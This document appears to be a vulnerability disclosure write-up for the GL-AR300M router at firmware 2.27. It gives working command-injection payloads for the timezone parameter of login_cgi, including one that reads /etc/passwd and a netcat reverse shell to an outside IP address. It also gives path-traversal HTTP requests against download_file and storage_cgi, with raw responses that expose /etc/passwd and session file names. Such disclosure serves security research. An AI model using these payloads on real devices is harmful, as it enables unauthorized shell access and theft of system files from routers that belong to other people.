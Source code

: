 ## Preparation  

Product: GL-AR300M  

Firmware version: 2.27

## Command Injection  

### Hijack HTTP Request  

The first time we start the device and login the web interface. Let's set the language and the timezone.  

![](images/img1.jpg)

![](images/img2.jpg)

Using Fiddle tool to capture the HTTP request:  

![](images/img3.jpg)

When we perform this action the login_cgi script takes the content of the timezone parameter and inserts it into the /tmp/TZ file:

![](images/img4.jpg)

### Request Forgery  

#### login_cgi  

If we try to insert a value not present in the list of timezones, the script blocks us:  

![](images/img6.png)

![](images/img7.png)

![](images/img5.jpg)

We can bypass this and write on TZ file what we want, using this payload:  

```  
|echo+TEST||a+#'+ ||a #
```

![](images/img8.jpg)

Replace the payload with:  

```  
|echo+TEST||a+#'+|echo `cat /etc/passwd` ||a #
```

![](images/img11.jpg)

So I can execute the command. On my remote machine, I am listening the port "12345" via `nc -lvp 12345`. Now, let's replace the payload with netcat. 

```  
nc 192.168.17.130:12345 -e /bin/ash
```

![](images/img9.jpg)

For now, I have got the router's shell on my remote machine.  

![](images/img10.jpg) 

#### download_file and storage_cgi  

The device allows to share on the net the files present inside a storage usb
devie and to download them. If we try to download */etc/passwd*, the webserver
responde with Access Denied, we can bypass it.  

```  
Request:

GET /cgi-bin/download_file?/mnt/../etc/passwd HTTP/1.1 Host: 192.168.8.1

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.8.1/html/index
Cookie: CGISID=vaomgcy7QvTH489XvcDDAF7Futt5wTEPHHl5nMiZjGBvs
DNT: 1
Connection: close

Upgrade-Insecure-Requests: 1

Response:

HTTP/1.1 200 OK
Content-Disposition: attachment; filename="passwd"
Content-Length: 244
Connection: close
Date: Tue, 10 Apr 2018 06:46:37 GMT
Server: lighttpd/1.4.37

root:x:0:0:root:/root:/bin/ash daemon:*:1:1:daemon:/var:/bin/false ftp:*:55:55:ftp:/home/ftp:/bin/false network:*:101:101:network:/var:/bin/false nobody:*:65534:65534:nobody:/var:/bin/false dnsmasq:x:453:453:dnsmasq:/var/run/dnsmasq:/bin/false
```  

```  
Request:

GET /cgi-bin/storage_cgi?id=2&pwd=/tmp&_=1547210779015 HTTP/1.1 Host: 192.168.8.1

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.8.1/html/
X-CSRF-TOKEN: ZHjIIUi6ei3geAYQwxAS8dVh22YB7CfQ
X-Requested-With: XMLHttpRequest
Cookie: CGISID=IecOqfnvsoSS9VZgCUvLOLcBnxQTTYRbqCjqhxyMTjAE6
 
DNT: 1
Connection: close

Response:

HTTP/1.1 200 OK
Content-Type: application/json

Connection: close
Date: Tue, 10 Apr 2018 06:34:25 GMT
Server: lighttpd/1.4.37
Content-Length: 1500

{
"success":	true,
"result":	["d|60B|2018-04-10 06:29:24|usr||0", "d|40B|2018-04-10 06:29:24|opkg-
lists||0", "-|0B|2018-04-10
05:11:08|cgisess_69Bs22vGSj7L1B3wEiyZnipdBGSanm3cVU4DJTGZeYqtv||0", "-|0B|2018-04-

10	05:11:00|cgisess_Jj51sTfdhr831oncm7dPfliDV4jiDl2mIFU8z13jW9BUo||0", "-|0B|2018-04-10 05:10:56|cgisess_E23BuWFvOiDQhYByw9umQyD8RXqsiDxbw8lvsBoctqymH||0", "-|0B|2018-04-10 05:10:53|cgisess_r9ln53fqGyeIDIq3D7pAX57615hqHM8A9PXB4pp37LYDU||0", "-|38B|2018-04-10 05:10:45|cgisess_A7RQlphzApjq2xBQevZpRh9qI4BLVRw7srFw32rBmrC4S||0", "-|86KB|2018-04-10 05:09:30|luci-indexcache||0", "d|780B|2018-04-10 05:21:25|luci-modulecache||0", "d|300B|2018-04-10 06:29:24|www||0", "-|47B|2018-04-10 04:18:49|cgisess_IecOqfnvsoSS9VZgCUvLOLcBnxQTTYRbqCjqhxyMTjAE6||0", "d|60B|2018-04-10 06:29:40|nmbd||0", "-|32B|2018-04-10 04:12:50|resolv.conf||0", "d|40B|2018-04-10 04:12:49|dnsmasq.d||0", "-|50B|2018-04-10 06:33:05|dhcp.leases||0", "d|60B|2018-04-10

04:12:48|lib||0", "d|80B|2018-04-10 04:12:51|etc||0", "d|40B|2018-04-10 04:13:14|dropbear||0", "d|80B|2018-04-10 04:12:48|hosts||0", "-|5B|2018-04-10 06:15:03|TZ||0", "-|0B|2018-04-10 04:12:24|resolv.conf.auto||0", "d|280B|2018-04-10 04:17:26|.uci||0", "d|40B|2018-04-10

04:12:24|tmp||0", "d|140B|2018-04-10 04:12:53|log||0", "d|40B|1970-01-01 00:00:09|overlay||0", "d|80B|1970-01-01 00:00:06|sysinfo||0", "d|60B|2018-04-10 04:12:45|state||0", "d|360B|2018-04-10 06:30:23|lock||0", "d|320B|2018-04-10 06:29:40|run||0", "d|40B|2018-04-10 04:13:10|shm||0"]

}
``` 
